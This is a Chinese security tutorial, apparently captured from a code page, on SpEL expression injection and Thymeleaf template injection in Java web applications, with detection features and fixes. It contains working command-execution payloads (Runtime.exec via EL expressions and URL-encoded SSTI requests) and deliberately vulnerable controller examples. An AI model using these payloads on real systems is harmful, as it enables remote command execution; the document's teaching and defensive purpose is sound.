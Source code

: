 ```xml
${header} // 文件头参数
${applicationScope} // 获取webRoot
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("命令").getInputStream())} // 执行命令
<p th:text="${#this.getClass().forName('java.lang.System').getProperty('user.dir')}"></p>   //获取web路径
```
# 检测与防御
全局搜索关键特征：
```java
//关键类
org.springframework.expression.Expression
org.springframework.expression.ExpressionParser
org.springframework.expression.spel.standard.SpelExpressionParser
//调用特征
ExpressionParser parser = new SpelExpressionParser();
Expression expression = parser.parseExpression(str);
expression.getValue()
```
最直接的修复方法是使用SimpleEvaluationContext替换StandardEvaluationContext。
```java
String spel = "T(java.lang.Runtime).getRuntime().exec(\"calc\")";
ExpressionParser parser = new SpelExpressionParser();
Student student = new Student();
EvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().withRootObject(student).build();
Expression expression = parser.parseExpression(spel);
System.out.println(expression.getValue(context));
```
# Thymeleaf模板注入分析
参考：https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
```java
//GET /path?lang=en HTTP/1.1
//GET /path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}

// thymeleaf 在解析包含 :: 的模板名时，会将其作为表达式去进行执行
//GET /fragment?section=main
//GET /fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
@GetMapping("/fragment")
public String fragment(@RequestParam String section) {
    return "welcome :: " + section; //fragment is tainted
}

//如果controller无返回值，则以GetMapping的路由为视图名称。当然，对于每个http请求来讲，其实就是将请求的url作为视图名称，调用模板引擎去解析.
// /doc/__$%7BT(java.lang.Runtime).getRuntime().exec("calc")%7D__::.x
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
    //returns void, so view name is taken from URI
}
```
正确使用方式：
```java
// 设置ResponseBody注解,如果设置ResponseBody，则不再调用模板解析
@GetMapping("/safe/fragment")
```